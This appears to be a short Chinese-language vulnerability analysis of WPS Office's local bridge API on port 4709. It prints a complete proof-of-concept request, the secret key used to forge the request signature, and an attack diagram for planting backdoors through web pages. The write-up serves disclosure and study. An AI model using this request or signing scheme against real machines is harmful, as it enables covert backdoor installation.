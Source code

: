 ```yaml
POST /command/invoke HTTP/1.1
Host: localhost.wbridge.wps.cn:4709
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 732
Origin: https://docs.wps.cn
Referer: https://docs.wps.cn/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-site
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua: "Google Chrome";v="114", "Chromium";v="114", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Te: trailers
Connection: close

app_id=kdocs&cmd=ksoqing%3A%2F%2Ftype%3Dksolaunch%26cmd%3DcGx1Z2luOi8vcGFnZUNsb3VkRG9jcz91cmw9aHR0cHM6Ly9haXJzaGVldC1jb21tdW5pdHkud3BzLmNuLw%3d%3d%26token%3D7b542dc31594d4f443dfc073fcb8abd3&ks_local_token=2BwJYEBTwY2ueCNrylNVQhMGt8QMNR3A&nonce_str=AbQ5fb66Q23E2yG3dbSM2TQ8M4HmD7i8&t=1695719826922&sign=C16B6005259121B111BF72787186D057FF191D04D2374F47E064F7A541B3601A
```

执行完上述请求包后，会触发 wps 的 api 接口，并打开 wps 官网。攻击者的恶意负载将存储在网站中。加载后，后门将下载到指定目录并运行。

## 简单分析



我们在这里做一个简单的分析。 通过反向分析，我们发现 cmd 是 base64 编码的 WPS 官网域名，因为 WPS 只限制了部分白名单域名可以用内置浏览器打开，而那些不在白名单中的可以使用用户默认的 browser.whitelisted 域名打开，如：*.wps.cn *.wps.com *.wpscdn.cn *.kdocs.cn ....

### 关于Sign Token



```
md5(cmd + '_qingLaunchKey_')
```



# 黑客如何利用此漏洞？



我们发现中国黑客正在使用这种方法进行攻击！

```
        (attack)
hacker >>>>>>>>>> web site(Install Js Payload Backdoor)
        (access)                           (run js payload)
user   >>>>>>>>>> web site(Hacker attack)   >>>>>>>>>>  attack wps (if you start wps and 4709 open)    
```